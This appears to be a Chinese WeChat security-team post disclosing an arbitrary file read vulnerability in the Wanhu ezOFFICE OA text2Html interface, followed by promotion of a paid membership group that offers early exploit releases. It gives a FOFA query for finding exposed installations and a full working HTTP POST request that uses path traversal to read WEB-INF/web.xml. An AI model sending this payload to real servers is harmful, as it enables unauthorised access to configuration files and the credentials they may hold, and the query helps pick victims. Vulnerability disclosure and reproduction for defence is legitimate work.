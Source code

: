 #  万户OA text2Html 任意文件读取

原创 天澜实验室 [ 天澜实验室 ](javascript:void\(0\);)

**天澜实验室** ![]()

微信号 gh_c5fea27198a7

功能介绍 观水有术，必观其澜！
专注于感知国内外常见系统的漏洞态势，对漏洞进行分析、复现、武器化形成。涵盖漏洞复现、攻防演练、应急响应、工具开发等知识内容。秉承“没有网络安全就没有国家安全”的宗旨，热衷并服务于网络安全事业。

____

___发表于_

![]()

**请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。工具来自网络，安全性自测，如有侵权请联系删除。本次测试仅供学习交流使用，如若非法他用，与平台和本文作者无关，需自行负责！**

  

 **00**

 **漏洞概述**

![]()

万户OA text2Html接口存在任意文件读取漏洞，可读取系统配置文件。

 **01**

 **空间搜索语法**

![]()

FoFa

app="万户网络-ezOFFICE"

 **02**

 **利用过程**

![]()

登录页面如下

![]()

请求数据包如下：

  *   *   *   *   *   *   *   *   *   * 

    
    
    POST /defaultroot/convertFile/text2Html.controller HTTP/1.1Host:  User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.67 Safari/537.36Connection: closeContent-Length: 63Accept-Encoding: gzip, deflate, brContent-Type: application/x-www-form-urlencodedSL-CE-SUID: 1081  
    saveFileName=123456/../../../../WEB-INF/web.xml&moduleName=html

![]()

 **03**

 **nuclei poc**

![]()

![]()

获取脚本关注本公众号后发送：wanhuoa2

 **04**

 **疯狂KFC福利**

![]()

 **考虑到团队运营成本和公众号** **福利发放** **，创建知识星球欢迎各位师傅打赏💰** **后期会用打赏的资金去** **做福利**
**。星球的性价比真的比较可观，绝对不会因为某些身外之物水文章，安全圈很小，主要是和师傅们** **交个朋友**
**。还请各位师傅监督团队后边的表现，将心比心![](https://res.wx.qq.com/t/wx_fed/we-
emoji/res/v1.3.10/assets/Expression/Expression_67@2x.png) ！**

  

 **进入星球你能直接收获到：**

  1. 优先于公众号的POC更新（提前一两周~~）

  2. 定制化的成品工具开发

  3. 私人定制的客户需求（要求不要太过分呦~~）

  4. 实战技巧、攻防思路

  5. 杂七杂八的技术小福利

  6. 根据能力不定期的星球内部抽奖

  7. 更多漏洞利用Tips  

  

欢迎各位师傅加入哦~~  

![]()

进入星球直接能学习到这些漏洞：

![]()

✓

关注我们

预览时标签不可点

微信扫一扫  
关注该公众号

继续滑动看下一个

# 万户OA text2Html 任意文件读取

原创 天澜实验室 [ 天澜实验室 ](javascript:void\(0\);)

轻触阅读原文

![]()

天澜实验室

向上滑动看下一个

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看 分享 留言

